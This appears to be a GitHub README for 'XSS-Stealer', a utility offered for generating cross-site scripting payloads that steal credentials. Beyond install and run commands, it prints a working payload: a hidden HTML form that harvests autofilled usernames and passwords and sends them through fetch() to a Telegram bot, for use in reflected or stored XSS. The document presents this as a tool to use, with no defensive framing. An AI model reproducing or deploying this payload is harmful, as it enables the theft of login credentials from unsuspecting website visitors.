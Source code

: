 # XSS-Stealer

Simple utility to generate XSS-based stealers.

## Usage

```shell
pip install -r requirements.txt
```

```shell
python -m stealer
```

## Examples

### Telegram

Stealer based on the Telegram protocol. Steals the password using form autofill and sends it to the Telegram Bot.

**XSS-Types:**

- Reflected
- Stored


<p align="center">
<img src="resources/images/telegram-example.png" alt="telegram-example">
</p>


As a result we have obtained such code:

```js
<form style="display: none" onchange="fetch(`https://api.telegram.org/bot123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11/sendMessage?text=${this.u.value};${this.p.value}&chat_id=123123123`)"><input id="u" autocomplete="username"><input id="p" type="password" autocomplete="password"></form>
```

## Licence

XSS-Stealer is released under the MIT License. See the bundled [LICENSE](LICENSE) file for details.